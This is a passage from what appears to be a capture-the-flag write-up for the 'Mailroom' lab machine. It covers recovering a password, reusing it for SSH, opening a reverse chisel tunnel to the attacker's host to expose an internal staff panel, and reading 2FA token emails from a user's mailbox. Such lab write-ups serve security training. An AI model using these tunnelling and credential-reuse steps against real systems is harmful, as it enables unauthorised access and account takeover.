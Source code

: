 After repeating this a load of times and resetting the machine even more times, I was able to retrieve `69trisRulez!` as the full password. This password happens to be the password to SSH in as `tristan` as well.

### Port Fowarding --> RCE

Now that we have access to the machine, we can do some port forwarding to make the website available for us. I used `chisel`:

```bash
# on tristan's 
./chisel client 10.10.16.31:1080 R:80:127.0.0.1:80
# on kali
chisel server -p 1080 --reverse
```

Then, we can add `staff-review-panel.mailroom.htb` to our `/etc/hosts` file as `127.0.0.1`. Afterwards, we can visit the website!

<figure><img src="../../.gitbook/assets/image (230) (1).png" alt=""><figcaption></figcaption></figure>

We already found a password, so we can login. This would cause the application to send a mail to `tristan`, which we can read in `/var/mail/tristan`.

```
Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=6daeea709d39154b9a49f900ffafcaf2
From noreply@mailroom.htb  Tue Apr 18 04:05:54 2023
Return-Path: <noreply@mailroom.htb>
X-Original-To: tristan@mailroom.htb
Delivered-To: tristan@mailroom.htb
Received: from localhost (unknown [172.19.0.5])
        by mailroom.localdomain (Postfix) with SMTP id 9D922D95
        for <tristan@mailroom.htb>; Tue, 18 Apr 2023 04:05:54 +0000 (UTC)
Subject: 2FA

Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=fe298deab0eb116d330d4c126cfc9414
```
